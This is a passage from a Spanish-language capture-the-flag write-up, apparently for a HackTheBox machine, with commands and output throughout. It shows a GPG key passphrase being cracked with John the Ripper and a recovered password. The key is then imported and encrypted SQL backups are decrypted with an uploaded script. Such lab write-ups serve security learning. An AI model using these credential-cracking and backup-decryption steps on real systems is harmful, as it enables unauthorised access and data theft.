 * Crackeamos el hash:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash              
Warning! john.conf section [list.rules:sshrules] is multiple declared.
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sweetheart       (Sandy)     
1g 0:00:00:09 DONE (2025-09-26 00:36) 0.1001g/s 42.44p/s 42.44c/s 42.44C/s gandako..ladybug
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

* Importamos en la victima al path $HOME la clave privada

```bash
sandy@hacknet:~/.gnupg/private-keys-v1.d$ gpg --import "$HOME/.gnupg/private-keys-v1.d/armored_key.asc"
gpg: key D72E5C1FA19C12F7: "Sandy (My key for backups) <sandy@hacknet.htb>" not changed
gpg: key D72E5C1FA19C12F7: secret key imported
gpg: Total number processed: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
```

* Dumpeamos con un script los archvios backup0x.sql.gpg

> usamos en el script las credenciales de sandy

Subimos el script:

```bash
scp backup-dumper.sh sandy@hacknet.htb:/tmp
backup-dumper.sh  
```

Ejecutamos:

```bash
sandy@hacknet:/tmp$ chmod +x backup-dumper.sh
sandy@hacknet:/tmp$ ./backup-dumper.sh
[*] Importing GPG private key from: /home/sandy/.gnupg/private-keys-v1.d/armored_key.asc
gpg: key D72E5C1FA19C12F7: "Sandy (My key for backups) <sandy@hacknet.htb>" not changed
gpg: key D72E5C1FA19C12F7: secret key imported
gpg: Total number processed: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
[*] Decrypting /var/www/HackNet/backups/backup01.sql.gpg → /tmp/backup01.sql.sql
gpg: encrypted with 1024-bit RSA key, ID FC53AFB0D6355F16, created 2024-12-29
      "Sandy (My key for backups) <sandy@hacknet.htb>"
gpg: decryption failed: No secret key
[*] Decrypting /var/www/HackNet/backups/backup02.sql.gpg → /tmp/backup02.sql.sql
gpg: encrypted with 1024-bit RSA key, ID FC53AFB0D6355F16, created 2024-12-29
      "Sandy (My key for backups) <sandy@hacknet.htb>"
[*] Decrypting /var/www/HackNet/backups/backup03.sql.gpg → /tmp/backup03.sql.sql
gpg: encrypted with 1024-bit RSA key, ID FC53AFB0D6355F16, created 2024-12-29
      "Sandy (My key for backups) <sandy@hacknet.htb>"
[*] Done. Decrypted files are in /tmp
```

